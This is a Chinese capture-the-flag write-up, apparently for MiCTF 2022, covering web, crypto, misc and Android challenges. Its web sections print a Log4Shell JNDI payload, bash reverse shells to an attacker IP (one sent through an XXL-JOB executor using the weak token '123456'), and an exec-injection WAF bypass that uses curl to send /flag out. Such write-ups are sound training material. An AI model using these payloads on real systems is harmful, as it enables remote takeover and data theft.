想到了去年沸沸扬扬的 Apache Log4j远程代码执行漏洞（CVE-2021-44228）

https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce

Exploit执行反弹shell命令

```java
String[] cmds = new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/10.167.90.69/3000 0>&1"};
```

找一台服务器按照github说明开启jndi服务，用户名密码有一处填写

```text
${jndi:ldap://xx.xx.xx.xx:1389/Exploit}
```

反弹成功后，翻找目录找到flag。

## web-22 破解Token认证

提示说找找其它端口，发现开启了9999端口，结合端口和分布式调度关键词，查找获取信息，可能是XXL-JOB调度的executor。

访问地址，果然是这样。executor开启了token认证，但是弱口令猜测123456成功。

基于以上，构造数据发送给executor执行shell命令，反弹shell。

```shell
curl --location --request POST 'http://10.38.202.127:9999/run' \
--header 'Content-Type: application/json' \
--header 'XXL-JOB-ACCESS-TOKEN: 123456' \
--data-raw '{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1655774599001,
  "glueType": "GLUE_SHELL",
  "glueSource": "/bin/bash -i >& /dev/tcp/10.167.90.69/3000 0>&1",
  "glueUpdatetime": 1655774599000,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
'
```

翻找目录获得flag。

## web-23 简单小游戏

小游戏挺好玩


翻找源码，发现在通过13关后，会从/flag.php文件获取flag，但是直接访问提示关键信息在/dog.png文件中。

这里卡了好久，一直以为要分析狗的IDAT数据，或者是什么图片隐写之类的内容。

后来发现，key就赤裸裸的写在dog.png文件里。



访问 https://ezhack-ctfd.dun.mi.com/flag.php?key=627bb02a22 获取flag。

## web-25 路径引发的惨案

python代码审计

```python
# -*- coding: utf-8 -*-
import socket
import threading
from datetime import datetime
import os
import mimetypes
import urllib.parse
import sys
import subprocess
import re

respTemplate = """HTTP/1.1 {statusNum} {statusCode}
Date: {dateSent}
Server: {server}
Last-Modified: {modified}
Content-Length: {length}
Content-Type: {contentType}
Connection: {connectionType}

{body}
"""
DOC_ROOT = "../"

CODES = {"200": "OK",
         "304": "NOT MODIFIED",
         "400": "BAD REQUEST", "401": "UNAUTHORIZED", "403": "FORBIDDEN", "404": "NOT FOUND",
         "500": "INTERNAL SERVER ERROR"}

MIMES = {"txt": "text/plain", "css": "text/css", "html": "text/html", "png": "image/png", "jpg": "image/jpg",
         "ttf": "application/octet-stream", "otf": "application/octet-stream", "woff": "font/woff",
         "woff2": "font/woff2",
         "js": "application/javascript", "gz": "application/zip", "py": "text/plain", "map": "application/octet-stream"}

class Response:
    def __init__(self, **kwargs):
        self.__dict__.update(kwargs)
        now = datetime.now()
        self.dateSent = self.modified = now.strftime("%a, %d %b %Y %H:%M:%S")

    def stringResponse(self):
        return respTemplate.format(**self.__dict__)

class Request:
    def __init__(self, request):
        self.good = True
        try:
            request = self.parseRequest(request)
            self.method = request["method"]
            self.doc = request["doc"]
            self.vers = request["vers"]
            self.header = request["header"]
            self.body = request["body"]
        except:
            self.good = False

    def parseRequest(self, request):
        req = request.strip("\r").split("\n")
        method, doc, vers = req[0].split(" ")
        header = req[1:-3]
        body = req[-1]
        headerDict = {}
        for param in header:
            pos = param.find(": ")
            key, val = param[:pos], param[pos + 2:]
            headerDict.update({key: val})
        return {"method": method, "doc": doc, "vers": vers, "header": headerDict, "body": body}

class Server:
    def __init__(self, host, port):
        self.host = host
        self.port = port
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.sock.bind((self.host, self.port))

    def listen(self):
        self.sock.listen(5)
        while True:
            client, address = self.sock.accept()
            client.settimeout(60)
            threading.Thread(target=self.listenToClient, args=(client, address)).start()

    def listenToClient(self, client, address):
        size = 1024
        while True:
            try:
                data = client.recv(size)
                if data:
                    req = Request(data.decode())
                    self.handleRequest(req, client, address)
                    client.shutdown()
                    client.close()
                else:
                    raise error('Client disconnected')
            except:
                client.close()
                return False

    def handleRequest(self, request, conn, address):
        if request.good:
            document = self.serveDoc(request.doc, DOC_ROOT)
            statusNum = document["status"]
        else:
            document = self.serveDoc("/errors/400.html", DOC_ROOT)
            statusNum = "400"
        body = document["body"]

        statusCode = CODES[statusNum]
        dateSent = ""
        server = "SimpleHTTP/0.6 Python/3.8.2"
        modified = ""
        length = len(body)
        contentType = document["mime"]
        connectionType = "Closed"

        resp = Response(
            statusNum=statusNum, statusCode=statusCode,
            dateSent=dateSent, server=server,
            modified=modified, length=length,
            contentType=contentType, connectionType=connectionType,
            body=body
        )

        data = resp.stringResponse()
        if not data:
            return -1
        conn.sendall(bytes("HTTP/1.1 200 OK\r\nServer: SimpleHTTP/0.6 Python/3.8\r\nConnection: Closed\r\n\r\n","utf-8"))
        conn.sendall(body)
        return 0

    def waf(self,input):
        blacklist = r"import|\[|\]|builtins｜\|"
        if re.search(blacklist,input,re.I|re.M):
            print("Oh you are hacker! I can't allow your input.")
            input = re.sub(blacklist,'',input)
        return input

    def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'"
            #print(self.waf(info.format(path)))
            exec (self.waf(info.format(path)))
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "../index.html"
            requested = os.path.join(docRoot, path[1:])
            print(requested+str(os.path.isfile(requested)))
            if os.path.isfile(requested):
                mime = mimetypes.guess_type(requested)
                mime = (mime if mime[0] != None else "text/html")
                mime = MIMES[requested.split(".")[-1]]
                try:
                    with open(requested, "rb") as f:
                        data = f.read()
                except:
                    with open(requested, "rb") as f:
                        data = f.read()
                status = "200"
            else:
                errorPage = os.path.join(docRoot, "errors", "404.html")
                print(errorPage)
                mime = "text/html"
                with open(errorPage, "rb") as f:
                    data = f.read()
                status = "404"
        except Exception as e:
            #print(e)
            errorPage = os.path.join(docRoot, "errors", "500.html")
            mime = "text/html"
            with open(errorPage, "rb") as f:
                data = f.read()
            status = "500"
        return {"body": data, "mime": mime, "status": status}

if __name__ == '__main__':
    Server("0.0.0.0",7777).listen()
```

关键点在exec那句话，程序会将path放在exec命令中执行，我们就需要构造path，绕过waf对import、方括号、builtins和竖线的过滤。

```text
http://10.38.202.214:7777/'+str(eval('__im'+'port__("os").system("curl http://10.167.90.69:1337/hello/$(cat /flag | base64)")'))+'
```

通过字符串连接将import隔开，通过访问远程路径的方式，将信息传输出去。

这个题目可以在本地起服务，慢慢调试。

## embedded-1 躲猫猫

文件打开，在最后发现了flag信息，这两块的****的内容可以相互补充。


## crypto-1 乱码中的奥妙

给了三个文件，加密文本、密码列表和一个加密解密算法。写个程序用密码列表中的密码依次解密加密文本，找到以fl开头的解密结果。

```java
package com.sumygg.mictf2022.crypto_1;

import java.io.*;
import java.nio.file.Files;
import java.util.Scanner;

public class Main {
    public static void main(String[] args) throws IOException {
        File passwordFile = new File("src/main/java/com/sumygg/mictf2022/crypto_1/passwords.passwords");
        File cipherTextFile = new File("src/main/java/com/sumygg/mictf2022/crypto_1/cipherText.txt");

        Scanner cipherTextScanner = new Scanner(Files.newInputStream(cipherTextFile.toPath()));
        String cipherText = cipherTextScanner.nextLine();

        System.out.println("cipherText = " + cipherText);

        Scanner passwordScanner = new Scanner(Files.newInputStream(passwordFile.toPath()));
        while (passwordScanner.hasNext()) {
            String passwd = passwordScanner.nextLine();
            String decode = R96Crypto.encdec(R96Crypto.DEC, passwd, cipherText);
            if (decode.startsWith("fl")) {
                System.out.println(passwd + " " + decode);
            }
        }
    }

}
```

## misc-1 图片中的秘密

不解释


## misc-2 弱密码不可有！

根据描述构造爆破密码
- 14位英文和数字
- 00后，包含生日
- 第一位做了修改（应该是小写改大写）
- 最后一位加了1个符号

只有这些信息破解起来有点麻烦，还需要合理猜测，比如开头是xiaomi，这样正好6英文+8数字=14位。

剩下的就是破解生日和特殊符号了。

```python
import hashlib
import datetime

target = 'a1c6eaee90a012a1bb054bddcd081d6a'

additional_chars = '~!@#$%^&*()[{]}-_=+|;:\'",<.>/?`'
uppercase_letters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
lowercase_letters = 'abcdefghijklmnopqrstuvwxyz'

first_date = datetime.date(2000, 1, 1)

cnt = 0


def dfs(is_first: bool, is_end: bool, has_birth: bool, pass_str: str):
    # 已经拼接好，计算md5比对
    if is_end:
        global cnt
        cnt = cnt + 1
        hl = hashlib.md5()
        hl.update(pass_str.encode(encoding='utf-8'))
        # print(pass_str + " " + hl.hexdigest())
        if hl.hexdigest() == target:
            print("found " + pass_str)
        if cnt % 1000000 == 0:
            print(cnt)
        return

    # 14位，补充特殊符号
    if len(pass_str) == 14:
        for ch in additional_chars:
            dfs(is_first, True, has_birth, pass_str + ch)
        return

    # 拼接第一位
    if is_first:
        for ch in uppercase_letters:
            dfs(False, is_end, has_birth, ch)
        return

    # 拼接普通字母
    if len(pass_str) < 6:
        for ch in lowercase_letters:
            dfs(is_first, is_end, has_birth, pass_str + ch)

    # 拼接生日字符串
    elif not has_birth:
        for d in range(0, 365 * 5):
            date_str = (first_date + datetime.timedelta(d)).strftime("%Y%m%d")
            dfs(is_first, is_end, True, pass_str + date_str)

    return


dfs(False, False, False, 'Xiaomi')
```

找到了 `Xiaomi20020604@`

用上面的密码解压完给出的flag.zip，找到一个word文件。


看格式是一种叫ook的语言，有个在线解码器 https://www.splitbrain.org/services/ook

但是文本解出来的只有flag的前半部分，后半部分去哪儿了？原来藏在的work文件最后，该个颜色就出来了。



将两部分合并，得到完整的flag。

## android-1 抓token

用jd-gui反编译smali代码转成java伪代码，发现大概算法是每两个字符经过运算出一个hash，和目标数组里的hash值比较是否一致。

将逻辑提取出来，用程序搜索一下：

```java
package com.sumygg.mictf2022.android_1;

public class CatchToken2 {
    private static final int[] target = new int[]{
            -912680206, 2031609106, -815368373, 1069350675, -1370062066, -1772356947, -987972278, 96827298, 1685607320, 1067167222,
            -2063214181, 1081770804, -1341224450, 1264237829, -617750188, 1934300439};

    private static String searchToken(Integer target) {
        for (char ch1 = ' '; ch1 <= '~'; ch1++) {
            for (char ch2 = ' '; ch2 <= '~'; ch2++) {
                int j = ((ch2 & 0xFF) << 8 | ch1 & 0xFF) * -862048943;
                j = (j << 15 | j >>> 17) * 461845907 ^ 0x64 ^ 0x2;
                j = (j ^ j >>> 16) * -2048144789;
                j = (j ^ j >>> 13) * -1028477387;
                int res = j ^ j >>> 16;
                if (res == target) {
                    return "" + ch1 + ch2;
                }
            }
        }
        return "++NOT FOUND++";
    }

    public static void main(String[] args) {
        for (int tar : target) {
            System.out.print(searchToken(tar));
        }
        System.out.println();
    }
}
```

## android-2 easy android

so文件反编译，扔到IDA pro里，F5转换成伪代码


大概意思是，将key和seed运算生成一个数组，作为密钥。用输入的字符串和密钥进行AES/128/ECB/noPadding进行加密，加密生成的字符串与maskData比较，判断输入字符串是否正确。

maskData的值



写个程序反向解密

```python
from Crypto.Cipher import AES

seed = 0x6b
maskData = [0x75, 0x5d, 0xf2, 0x5c, 0xd2, 0x38, 0x29, 0x89, 0x81,
            0x6f, 0xa7, 0x4d, 0xca, 0x51, 0x86, 0x70, 0x33, 0x97,
            0xa0, 0x4f, 0xff, 0xba, 0xce, 0x8f, 0x4d, 0x6f, 0xc4,
            0x34, 0xb0, 0x12, 0xdf, 0xe1]
key = [ord(e) for e in "JustThisKeyHere!"]
data = [ord(e) for e in "1111111111111111"]
data[0] = seed ^ key[0]
data[1] = seed ^ key[0] ^ key[1]
data[2] = data[1] ^ key[2]
data[3] = data[1] ^ key[2] ^ key[3]
data[4] = data[3] ^ key[4]
data[5] = data[3] ^ key[4] ^ key[5]
data[6] = data[5] ^ key[6]
data[7] = data[5] ^ key[6] ^ key[7]
data[8] = data[7] ^ key[8]
data[9] = data[7] ^ key[8] ^ key[9]
data[10] = data[9] ^ key[10]
data[11] = data[9] ^ key[10] ^ key[11]
data[12] = data[11] ^ key[12]
data[13] = data[11] ^ key[12] ^ key[13]
data[14] = data[13] ^ key[14]
data[15] = data[13] ^ key[14] ^ key[15]
print(data)

cryptor = AES.new(b''.join(map(lambda x: int.to_bytes(x, 1, 'little'), data)), AES.MODE_ECB)
origin_data = cryptor.decrypt(b''.join(map(lambda x: int.to_bytes(x, 1, 'big'), maskData)))
print(origin_data)
```

最后解密出来的值和flag{}拼接生成最后的flag（不像flag的flag）

```text
flag{S-NGN*9}}:3cy%%>X,ELRlG1w*Zx[?-+}
```

## android-3 来抽奖吧

反编译后核心逻辑在于号码的计算成兑奖凭证的一段。将核心逻辑提取出来，计算一下。

DataHolder.java

```java
package com.sumygg.mictf2022.android_3;

public class DataHolder {
    public static long[] a = new long[5];

    public static long[] b = new long[5];

    public static boolean[] c = new boolean[5];
}
```

b.java

```java
package com.sumygg.mictf2022.android_3;

public class b implements Runnable {
    public Thread a;

    public String b;

    public int c = 0;

    public int d = 1000;

    public long e = 0L;

    public long f = 0L;

    public b(int paramInt, long paramLong1, long paramLong2) {
        this.b = Integer.toString(paramInt);
        this.c = paramInt;
        DataHolder.a[paramInt] = 0L;
        DataHolder.b[paramInt] = 0L;
        DataHolder.c[paramInt] = false;
        this.e = paramLong1;
        this.f = paramLong2;
    }

    public void a() {
        if (this.a == null) {
            Thread thread = new Thread(this, this.b);
            this.a = thread;
            thread.start();
        }
    }

    public void run() {
        try {
            while (true) {
                int i = this.d;
                if (i != 0) {
                    long l = (1103515245L * this.f + 12345L) % 2147483648L;
                    this.f = l;
                    l %= 10L;
                    if (l == this.e)
                        this.d = i - 1;
                    long[] arrayOfLong = DataHolder.b;
                    i = this.c;
                    arrayOfLong[i] = l;
                    arrayOfLong = DataHolder.a;
                    arrayOfLong[i] = arrayOfLong[i] + 1L;
                    Thread.sleep(0L);
                    continue;
                }
                DataHolder.c[this.c] = true;
                return;
            }
        } catch (InterruptedException interruptedException) {
        }
    }
}
```

Awards.java

```java
package com.sumygg.mictf2022.android_3;

import java.util.Arrays;

public class Awards {
    public static void main(String[] args) throws InterruptedException {
//        int[] award = new int[]{2, 3, 4, 5, 6};
        int[] award = new int[]{4, 1, 7, 6, 9};

        b b5 = new b(0, award[0], 123456L);
        b b3 = new b(1, award[1], 562L);
        b b1 = new b(2, award[2], 88962L);
        b b6 = new b(3, award[3], 98745123L);
        b b4 = new b(4, award[4], 2551024833L);

        b5.a();
        b3.a();
        b1.a();
        b6.a();
        b4.a();

        b1.a.join();
        b3.a.join();
        b4.a.join();
        b5.a.join();
        b6.a.join();

        System.out.println(Arrays.toString(DataHolder.a));
        System.out.println(Arrays.toString(DataHolder.b));
    }
}
```


## android-4 click_the_button

反编译，发现这个题要点10000次按钮才会有结果，将核心逻辑提取出来，重复10000次，获取的字符串。

```java
package com.sumygg.mictf2022.android_5;

public class ClickTheButton {
    public static int n = 0;
    public static int[] o = new int[]{0, 0, 0, 0, 0, 0, 0, 0};
    public static int[] p = new int[]{-1697858774, 1295603483, -1212291049, 1669685709, 1997247066, -1187674524, -1142408073, 1618842764};

    private static String concat(String a, String b) {
        return a + b;
    }

    public static void onClick() {
        String str;
        int k = n;
        if (k > 10000)
            return;
        int i = 0;
        int j = 0;
        if (k == 10000) {
            for (i = 0; i < 8; i++) {
                int[] arrayOfInt1 = o;
                k = arrayOfInt1[i];
                arrayOfInt1[i] = p[i] ^ k;
            }
            int[] arrayOfInt = o;
            StringBuilder stringBuilder = new StringBuilder();
            k = arrayOfInt.length;
            for (i = j; i < k; i++) {
                String str2 = Integer.toHexString(arrayOfInt[i]);
                String str1 = str2;
                if (str2.length() == 1)
                    str1 = concat("0", str2);
                stringBuilder.append(str1);
            }
            str = stringBuilder.toString();
            System.out.println(str);
        } else {
            int m = k % 8;
            int[] arrayOfInt = o;
            j = arrayOfInt[m];
            byte[] arrayOfByte = new byte[4];
            arrayOfByte[0] = (byte) (j >> 24 & 0xFF);
            arrayOfByte[1] = (byte) (j >> 16 & 0xFF);
            arrayOfByte[2] = (byte) (j >> 8 & 0xFF);
            arrayOfByte[3] = (byte) (j & 0xFF);
            j = k;
            while (i < 4) {
                k = (arrayOfByte[i] & 0xFF | (arrayOfByte[i + 1] & 0xFF) << 8 | (arrayOfByte[i + 2] & 0xFF) << 16 | arrayOfByte[i + 3] << 24) * -862048943;
                j ^= (k << 15 | k >>> 17) * 461845907;
                j = (j >>> 19 | j << 13) * 5 - 430675100;
                i += 4;
            }
            i = j ^ 0x4;
            i = (i ^ i >>> 16) * -2048144789;
            i = (i ^ i >>> 13) * -1028477387;
            arrayOfInt[m] = i ^ i >>> 16;
        }
        n++;
    }

    public static void main(String[] args) {
        for (int i = 0; i <= 10000; i++) {
            onClick();
        }
    }

}
```

但得到的不是最终的flag，而是一串字符串。

```text
54576b365a6d78685a3374456231394f62315266596d566652585a7054434639
```

先用十六进制解码，又得到一个字符串，还不是flag。

```text
TWk6ZmxhZ3tEb19Ob1RfYmVfRXZpTCF9
```
使用网站， https://www.dcode.fr/cipher-identifier ，猜测一下是哪种加密方式，挨个尝试。最终发现是base64编码

https://www.dcode.fr/base-64-encoding

解码获得flag。
